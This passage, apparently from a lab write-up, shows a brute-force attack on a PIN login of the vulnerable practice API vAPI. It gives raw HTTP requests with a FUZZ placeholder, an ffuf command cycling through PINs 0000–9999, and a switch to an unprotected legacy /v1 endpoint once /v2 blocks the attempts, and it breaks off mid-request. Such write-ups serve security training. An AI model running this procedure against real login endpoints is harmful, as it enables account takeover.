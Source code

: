 ```markdown
Cookie: language=en; welcomebanner_status=dismiss; XSRF-TOKEN=eyJpdiI6Ikh0TDNDU0V1VC9HaXFoVENhRDFRYXc9PSIsInZhbHVlIjoianBSSTFIa0gxMmQrREI4cWtnVUo0QmN4eU5Tamk1V1BDOWN5UkVQcmRPeldoenZidzNjYTBOdExTVytsU2E5L1Y5eSs1cEh2SHA4MjdwWEVXaVBQV2s4K1BjMTMySkNnQnV6VndwSlBYMUNpT0xhbkl4QlZrb1N0bCtGcnlCb0oiLCJtYWMiOiJjYWE5NTg4ZWEwMjQzN2Q0ZjM5MzNhMjNlZDhkOWI0MmFhNTc4NTJmOTdiMjQxMWE0YmQzYjI1NTc5NTYwMzNkIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Im90aHQrZkNlQmJkSTduUTZ3OTJaL1E9PSIsInZhbHVlIjoiU3FzY3duNE5xMzBMWGZnNG5HbTRuNTQ4TGc5SzM2QlFNUTZsdlc5Q09GYm1vZnNzV0YrZ1BubWcxNHc3NHp3Y2VJbEZJTndhOGhFcXNIQUFhNEI1YkpuUThYQXpDOFNJampTbUZkNDViam9pSWQrWGpHS3lOZW9XVXhzaERuclgiLCJtYWMiOiIxZWU2MTNhNDIxNGE2OTI4NmViMDFkOTFhYzczZTQzNjdhYjFlZjBiZDI2YjEyM2IyZGEwOWQ3ZjBiYmE5MDJiIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
Content-Length: 54
Content-Type: application/json;charset=UTF-8

{
  "username": "richardbranson",
  "pin": "FUZZ"
}
```
Generate a wordlist of possible PIN codes (from 0000 to 9999) and save the file as `seq`, then launch the `ffuf` attack.
```markdown
> ffuf -request request.txt -c -w ./seq -t 100 -request-proto http
```
Shortly after, we begin receiving status 500 codes, meaning the server is somehow detecting and blocking bruteforce attacks.
\
\
![Untitled35](https://github.com/g1vi/AllTheWriteUps/assets/120142960/caeee728-461c-4898-926e-bccf48591ced)
\
\
So bruteforce protections have been implemented in the `/V2` endpoint. However, maybe there is an outdated `/V1` endpoint still in place which does not provide any protection. Check if `/V1` endpoint is still present in the host. 
\
\
![Untitled36](https://github.com/g1vi/AllTheWriteUps/assets/120142960/a3fb26fe-de0d-417e-8900-78074c19020e)
\
\
We receive a status code 200, meaning the `/V1` endpoint has not been retired after entry into service of `/V2`. We will try to repeat the bruteforce process for the `/V1` endpoint. Modify the `request.txt` file to point to the `/V1` endpoint.
```markdown
POST /vapi/api9/v1/user/login HTTP/1.1
Host: 10.1.1.11:8008
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; XSRF-TOKEN=eyJpdiI6Ikh0TDNDU0V1VC9HaXFoVENhRDFRYXc9PSIsInZhbHVlIjoianBSSTFIa0gxMmQrREI4cWtnVUo0QmN4eU5Tamk1V1BDOWN5UkVQcmRPeldoenZidzNjYTBOdExTVytsU2E5L1Y5eSs1cEh2SHA4MjdwWEVXaVBQV2s4K1BjMTMySkNnQnV6VndwSlBYMUNpT0xhbkl4QlZrb1N0bCtGcnlCb0oiLCJtYWMiOiJjYWE5NTg4ZWEwMjQzN2Q0ZjM5MzNhMjNlZDhkOWI0MmFhNTc4NTJmOTdiMjQxMWE0YmQzYjI1NTc5NTYwMzNkIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Im90aHQrZkNlQmJkSTduUTZ3OTJaL1E9PSIsInZhbHVlIjoiU3FzY3duNE5xMzBMWGZnNG5HbTRuNTQ4TGc5SzM2QlFNUTZsdlc5Q09GYm1vZnNzV0YrZ1BubWcxNHc3NHp3Y2VJbEZJTndhOGhFcXNIQUFhNEI1YkpuUThYQXpDOFNJampTbUZkNDViam9pSWQrWGpHS3lOZW9XVXhzaERuclgiLCJtYWMiOiIxZWU2MTNhNDIxNGE2OTI4NmViMDFkOTFhYzczZTQzNjdhYjFlZjBiZDI2YjEyM2IyZGEwOWQ3ZjBiYmE5MDJiIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
Content-Length: 54
Content-Type: application/json;charset=UTF-8

{
  "username": "richardbranson",
```